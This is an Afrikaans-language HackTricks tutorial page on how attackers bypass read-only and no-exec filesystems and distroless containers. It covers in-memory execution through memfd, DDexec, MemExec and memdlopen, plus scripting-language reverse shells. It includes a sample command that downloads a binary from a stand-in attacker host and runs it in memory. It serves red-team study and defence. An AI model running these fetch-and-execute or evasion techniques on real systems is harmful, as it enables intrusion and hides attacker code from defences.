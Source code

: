 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en om die onhackbare te hack - **ons huur aan!** (_vloeiende Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In die volgende video's kan jy die tegnieke wat op hierdie bladsy genoem word, meer in diepte verduidelik vind:

* [**DEF CON 31 - Verkenning van Linux Geheue Manipulasie vir Stealth en Ontvlugting**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth indringings met DDexec-ng & in-geheue dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Dit is al hoe meer algemeen om Linux masjiene te vind wat gemonteer is met **read-only (ro) lêerstelsel beskerming**, veral in houers. Dit is omdat dit so maklik is om 'n houer met 'n ro lêerstelsel te laat loop deur **`readOnlyRootFilesystem: true`** in die `securitycontext` in te stel:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Tog, selfs al is die lêerstelsel as ro gemonteer, sal **`/dev/shm`** steeds skryfbaar wees, so dit is vals dat ons nie iets op die skyf kan skryf nie. Hierdie gids sal egter **gemonteer wees met no-exec beskerming**, so as jy 'n binêre hier aflaai, sal jy **nie in staat wees om dit uit te voer nie**.

{% hint style="warning" %}
Van 'n rooi span perspektief maak dit **dit moeilik om binêre af te laai en uit te voer** wat nie reeds in die stelsel is nie (soos agterdeure of enumerators soos `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Let daarop dat ek binêre genoem het, jy kan **enige skrip uitvoer** solank die interpreter binne die masjien is, soos 'n **shell skrip** as `sh` teenwoordig is of 'n **python** **skrip** as `python` geïnstalleer is.

Tog is dit nie net genoeg om jou binêre agterdeur of ander binêre gereedskap wat jy mag nodig hê om te loop, uit te voer nie.

## Memory Bypasses

As jy 'n binêre wil uitvoer maar die lêerstelsel dit nie toelaat nie, is die beste manier om dit te doen deur **dit uit geheue uit te voer**, aangesien die **beskermings daar nie van toepassing is nie**.

### FD + exec syscall bypass

As jy 'n paar kragtige skrip enjin in die masjien het, soos **Python**, **Perl**, of **Ruby**, kan jy die binêre aflaai om uit geheue uit te voer, dit in 'n geheue lêer beskrywer (`create_memfd` syscall) stoor, wat nie deur daardie beskermings beskerm gaan word nie en dan 'n **`exec` syscall** aanroep wat die **fd as die lêer om uit te voer** aandui.

Vir hierdie kan jy maklik die projek [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) gebruik. Jy kan dit 'n binêre gee en dit sal 'n skrip in die aangeduide taal genereer met die **binêre gecomprimeer en b64 geënkodeer** met die instruksies om dit te **dekodeer en te dekomprimeer** in 'n **fd** wat geskep is deur `create_memfd` syscall aan te roep en 'n oproep na die **exec** syscall om dit te laat loop.

{% hint style="warning" %}
Dit werk nie in ander skrip tale soos PHP of Node nie omdat hulle nie enige d**efault manier het om rou syscalls** van 'n skrip aan te roep nie, so dit is nie moontlik om `create_memfd` aan te roep om die **geheue fd** te skep om die binêre te stoor nie.

Boonop sal die skep van 'n **regte fd** met 'n lêer in `/dev/shm` nie werk nie, aangesien jy nie toegelaat sal word om dit te laat loop nie omdat die **no-exec beskerming** van toepassing sal wees.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is 'n tegniek wat jou toelaat om die **geheue van jou eie proses** te modifiseer deur sy **`/proc/self/mem`** te oorskryf.

Daarom, deur **die samestelling kode** wat deur die proses uitgevoer word, te beheer, kan jy 'n **shellcode** skryf en die proses "mutate" om **enige arbitrêre kode** uit te voer.

{% hint style="success" %}
**DDexec / EverythingExec** sal jou toelaat om jou eie **shellcode** of **enige binêre** uit **geheue** te laai en **uit te voer**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is die natuurlike volgende stap van DDexec. Dit is 'n **DDexec shellcode demonised**, so elke keer wanneer jy 'n **verskillende binêre** wil **uitvoer**, hoef jy nie DDexec weer te herlaai nie, jy kan net memexec shellcode via die DDexec tegniek uitvoer en dan **kommunikeer met hierdie demon om nuwe binêre te stuur om te laai en uit te voer**.

Jy kan 'n voorbeeld vind van hoe om **memexec te gebruik om binêre van 'n PHP reverse shell uit te voer** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Met 'n soortgelyke doel as DDexec, laat die [**memdlopen**](https://github.com/arget13/memdlopen) tegniek 'n **gemakliker manier om binêre** in geheue te laai om later uit te voer. Dit kan selfs toelaat om binêre met afhanklikhede te laai.

## Distroless Bypass

### Wat is distroless

Distroless houers bevat slegs die **bare minimum komponente wat nodig is om 'n spesifieke toepassing of diens te laat loop**, soos biblioteke en runtime afhanklikhede, maar sluit groter komponente soos 'n pakketbestuurder, skulp of stelseldienste uit.

Die doel van distroless houers is om die **aanvaloppervlak van houers te verminder deur onnodige komponente te verwyder** en die aantal kwesbaarhede wat uitgebuit kan word, te minimaliseer.

### Reverse Shell

In 'n distroless houer mag jy **nie eers `sh` of `bash`** vind om 'n gewone skulp te kry nie. Jy sal ook nie binêre soos `ls`, `whoami`, `id`... vind nie, alles wat jy gewoonlik in 'n stelsel uitvoer.

{% hint style="warning" %}
Daarom, jy **sal nie** in staat wees om 'n **reverse shell** te kry of die stelsel te **enumerate** soos jy gewoonlik doen nie.
{% endhint %}

As die gecompromitteerde houer egter byvoorbeeld 'n flask web loop, dan is python geïnstalleer, en daarom kan jy 'n **Python reverse shell** kry. As dit node loop, kan jy 'n Node rev shell kry, en dieselfde met byna enige **scripting taal**.

{% hint style="success" %}
Met die scripting taal kan jy die stelsel **enumerate** met behulp van die taal se vermoëns.
{% endhint %}

As daar **geen `read-only/no-exec`** beskermings is nie, kan jy jou reverse shell misbruik om **in die lêerstelsel jou binêre te skryf** en **uit te voer**.

{% hint style="success" %}
In hierdie tipe houers sal hierdie beskermings gewoonlik bestaan, maar jy kan die **vorige geheue-uitvoertegnieke gebruik om dit te omseil**.
{% endhint %}

Jy kan **voorbeelde** vind van hoe om **sommige RCE kwesbaarhede te benut** om scripting tale **reverse shells** te kry en binêre uit geheue uit te voer in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackable te hack - **ons huur aan!** (_vloeiend Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
